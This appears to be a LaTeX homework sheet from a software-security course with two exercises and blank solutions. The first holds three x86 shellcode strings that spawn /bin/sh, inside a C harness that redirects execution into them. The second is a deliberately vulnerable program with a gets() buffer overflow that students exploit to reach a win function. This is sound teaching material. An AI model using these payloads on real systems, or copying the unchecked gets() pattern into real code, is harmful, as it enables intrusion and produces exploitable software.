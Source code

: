 \documentclass[10.9pt]{article}
\newcommand\tab[1][0.5cm]{\hspace*{#1}}
\begin{document}
\section{Problem 4}
\tab Compile the below program; open in debugger. Examine the different shellcodes; What are
each of them doing?
\begin{lstlisting}[language=C]
/*char shellcode[] =
	"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c"
	"\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb"
	"\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh";
*/
/*char shellcode[] =
	"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58"
	"\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51"
	"\x89\xe2\x53\x89\xe1\xcd\x80";
*/
char shellcode[] =

	"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89
	\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

void main() {
	int *ret;

	ret = (int *)&ret + 2;
	(*ret) = (int)shellcode;

}
\end{lstlisting}
\textbf{\\Solution:\\}


\section{Problem 5}
\tab Compile the below program; Cause a control flow deviation to “win”
\begin{lstlisting}[language=C]
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
	printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
	volatile int (*fp)();
	char buffer[64];

	fp = 0;

	gets(buffer);

	if(fp) {
		printf("calling function pointer, jumping to 0x%08x\n", fp);
		fp();
	}
}
\end{lstlisting}
\textbf{\\Solution:\\}
\end{document}
